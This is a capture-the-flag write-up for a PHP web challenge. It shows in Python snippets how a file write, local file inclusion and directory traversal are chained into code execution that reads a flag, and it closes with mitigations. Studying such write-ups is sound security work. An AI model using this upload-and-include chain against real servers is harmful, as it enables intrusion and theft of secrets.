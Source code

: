 # PA_Incloud2RCE

## Challenge Overview
This is a web challenge involving file upload and remote code execution (RCE) vulnerabilities. The challenge name "Incloud2RCE" suggests it's about exploiting cloud-based file operations to achieve remote code execution.

## Vulnerability Analysis
Based on the exploit script, the application has the following vulnerabilities:

1. **Arbitrary File Upload**: The application accepts user input via a `content` parameter and writes it to a file using `file_put_contents()`
2. **Local File Inclusion (LFI)**: The application includes files based on user input via a `file` parameter
3. **Directory Traversal**: The application doesn't properly sanitize file paths, allowing directory traversal with `../`

## Exploitation Steps

### Step 1: Upload Malicious PHP Payload
```python
payload = '<?=getenv("flag");?>'
params_upload = {"content": payload}
resp = requests.get(BASE_URL, params=params_upload)
```

The exploit uploads a PHP payload that calls `getenv("flag")` to read the flag from environment variables. The server responds with the path where the file was saved (typically in `/tmp/` directory).

### Step 2: Extract File Path
```python
match = re.search(r"/tmp/[a-f0-9]+\.txt", resp.text)
file_path = match.group(0)
```

The script extracts the file path from the server response using regex pattern matching.

### Step 3: Execute Uploaded File via LFI
```python
params_exec = {"file": "../../../.." + file_path, "flag": "flag"}
resp = requests.get(BASE_URL, params=params_exec)
```

The exploit uses directory traversal (`../../../..`) to include the uploaded file from `/tmp/` directory. The file inclusion causes the PHP code to execute, reading the flag from environment variables.

## Technical Details

- **Target**: `124.16.75.117:51001`
- **Endpoint**: `/index.php`
- **Method**: GET requests with parameters
- **Payload**: PHP short tag `<?=getenv("flag");?>`
- **Directory Traversal**: `../../../..` to escape current directory
- **File Pattern**: `/tmp/[hex].txt` (randomized filename)

## Key Insights

1. The application saves uploaded content to predictable file paths in `/tmp/`
2. The file inclusion functionality doesn't properly validate file paths
3. Directory traversal allows access to files outside the web root
4. The flag is stored as an environment variable accessible via `getenv()`

## Flag Retrieval
When the uploaded PHP file is included and executed, it calls `getenv("flag")` which returns the flag value from the server's environment variables.

## Mitigation
To prevent this vulnerability:
1. Validate and sanitize all user inputs
2. Implement proper file upload restrictions
3. Use whitelist-based file inclusion instead of user-controlled paths
4. Disable dangerous PHP functions in web-accessible directories
5. Store sensitive data securely, not in environment variables
